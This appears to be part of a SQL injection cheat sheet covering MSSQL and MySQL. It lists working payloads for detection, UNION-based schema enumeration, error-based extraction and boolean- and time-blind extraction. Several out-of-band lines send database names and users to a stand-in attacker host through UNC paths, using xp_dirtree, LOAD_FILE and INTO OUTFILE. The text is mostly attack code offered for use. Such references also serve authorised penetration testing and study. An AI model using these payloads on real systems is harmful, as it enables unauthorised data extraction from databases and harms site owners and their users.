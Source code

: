 Out-of-band (DNS/SMB)
- UNC path triggers DNS/SMB lookup (often allowed even if xp_cmdshell is disabled):
```sql
DECLARE @p varchar(128)=(SELECT TOP 1 name FROM sys.databases);
EXEC('master..xp_dirtree "\\\\'+@p+'.attacker.tld\\a"');
```

---

## MySQL

Discovery
- Comments: `-- ` (needs trailing space), `/* ... */`, `#`
- Concatenation: `CONCAT('a','b')`, `'a' 'b'` (space)
- Time primitive: `SLEEP(5)`
- Version: `@@version`

Initial detection
- Boolean:
  - `AND 1=1-- ` vs `AND 1=2-- `
- Time-based:
  - `AND IF(1=1,SLEEP(5),0)-- `

Version / DB / User
```sql
UNION SELECT @@version-- 
UNION SELECT database()-- 
UNION SELECT user()-- 
```

UNION setup
- Column count: `ORDER BY n` or `UNION SELECT NULL,...` until success.

Schema enumeration
```sql
UNION SELECT table_schema, table_name FROM information_schema.tables-- 
UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users'-- 
```

Error-based extraction
- Use XML error functions (older MySQL) or JSON errors (version-dependent):
```sql
AND EXTRACTVALUE(1, CONCAT(0x5c,(SELECT database())))-- 
```

Boolean blind
```sql
AND LENGTH((SELECT database()))=8-- 
AND ASCII(SUBSTRING((SELECT user()),1,1))>77-- 
```

Time-based blind
```sql
AND IF(ASCII(SUBSTRING((SELECT database()),1,1))>77,SLEEP(5),0)-- 
```

Out-of-band (Windows targets)
```sql
SELECT LOAD_FILE('\\\\attacker.tld\\a');
-- Or write out (priv dependent)
SELECT (SELECT user()) INTO OUTFILE '\\\\attacker.tld\\a';
```

---